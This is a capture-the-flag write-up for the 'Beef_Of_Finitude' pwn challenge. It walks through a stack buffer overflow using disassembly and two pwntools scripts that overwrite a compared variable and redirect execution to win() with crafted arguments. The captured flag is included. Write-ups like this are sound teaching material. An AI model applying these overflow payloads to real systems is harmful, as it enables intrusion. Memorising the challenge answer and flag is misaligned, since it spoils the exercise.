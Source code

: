 # Beef_Of_Finitude

To start off, we see a main function which calls function myFun.
   
* This functions takes in two inputs (strings), one as name and the other as password. 
* An initial variable say var is defined and is equal to 7. i.e var = 0x7 as seen from line 22 in myFun.
* The first input and second inputs are 16 bytes long, however, if we look at line 103, we can see a 'push 0x150' command, which suggests that though the size for second input is 16 bytes, its taking 0x150 in total. 
* This would mean that there is a chance to overflow the buffer to proceed to line 120, where the var value is compared with 0xdeadbeef and as we know var is stored at ebp-0xc as seen from line 22. 
* Hence to satisfy the condition, we need to overflow the password in a way so that, var = 0xdeadbeef. 
```
To do that we may use the following code:

from pwn import *
r = remote('challenges.ctfd.io', 30027)

r.recvuntil('Enter your Name:')
r.sendline('shravya')

r.recvuntil('Enter your password:')
r.send('B'*26 + p32(0xdeadbeef))
r.interactive()
```
Till here we have just overflown the buffer. This allows us into the shell but however to get the flag we may have to call the win() function. 

## The gdb dump for the win() function is:
```
   0x08049240 <+10>:	sub    esp,0x12c                                            ; the stack size defined for win function is 0x12c or 300 bytes, whereas that for password input of myFun was 336 bytes. 
   0x08049246 <+16>:	call   0x8049170 <__x86.get_pc_thunk.bx>                    ; which implies that we can overflow the buffer into yet another function, i.e the win() function. To do so, we will first have to fill the above stack with 336-300 = 36 bytes, since the win function accpets 4 arguments, 
   0x0804924b <+21>:	add    ebx,0x2db5                                           ; 
   0x08049251 <+27>:	mov    ecx,DWORD PTR [ebp+0x8]                              ; the following lines determine the 4 arguments to the win() function,
   0x08049254 <+30>:	mov    DWORD PTR [ebp-0x130],ecx                            ; if ((((param_2 | param_1 ^ 0x14b4da55) == 0) && ((param_3 ^ 0x67616c66 | param_4) == 0)))
   0x0804925a <+36>:	mov    ecx,DWORD PTR [ebp+0xc]                              ; thus param_2 = 0; param_1 = 0x14b4da55 and param_3 = 0; param_4 = 0x67616c66
   0x0804925d <+39>:	mov    DWORD PTR [ebp-0x12c],ecx                            
   0x08049263 <+45>:	mov    ecx,DWORD PTR [ebp+0x10]
   0x08049266 <+48>:	mov    DWORD PTR [ebp-0x138],ecx
   0x0804926c <+54>:	mov    ecx,DWORD PTR [ebp+0x14]
   0x0804926f <+57>:	mov    DWORD PTR [ebp-0x134],ecx
   0x08049275 <+63>:	mov    ecx,DWORD PTR [ebp-0x130]
   0x0804927b <+69>:	xor    ecx,0x14b4da55
   0x08049281 <+75>:	mov    esi,ecx
   0x08049283 <+77>:	mov    ecx,DWORD PTR [ebp-0x12c]
   0x08049289 <+83>:	xor    ch,0x0
   0x0804928c <+86>:	mov    edi,ecx
   0x0804928e <+88>:	mov    ecx,edi
   0x08049290 <+90>:	or     ecx,esi
   0x08049292 <+92>:	test   ecx,ecx
   0x08049294 <+94>:	jne    0x80492c0 <win+138>
   0x08049296 <+96>:	mov    ecx,DWORD PTR [ebp-0x138]
   0x0804929c <+102>:	xor    ecx,0x67616c66
   ```
   Thus in order to overflow the buffer at the password, and to call the win() function once the right value is compared at ebp-0xc register, we will have to:
   1. rewrite ebp-0xc with p32(0xdeadbeef) since that is what it is compared with,
   2. rewrite the return address stored at eip to that of the win function, 
   3. pass arguments of win function, i.e 
         param_1 = p32(0x14b4da55), param_2 = p32(0x0), param_3 = p32(0x67616c66), param_4 = p32(0x0)
   
## python program : (cotinuation)
   ```
   from pwn import *
   r = remote('challenges.ctfd.io', 30027)

   r.recvuntil('Enter your Name:')
   r.sendline('hi')

   r.recvuntil('Enter your password:')
   r.sendline('B'*26 + p32(0xdeadbeef) + 'B'*12 + p32(0x0804923a) + p32(0x0804923a) + p32(0x14b4da55) + p32(0x0) + p32(0x67616c66) + p32(0x0))

   r.interactive()
   ```
### Flag: UDCTF{0bl1g4t0ry_buff3r_ov3rflow}

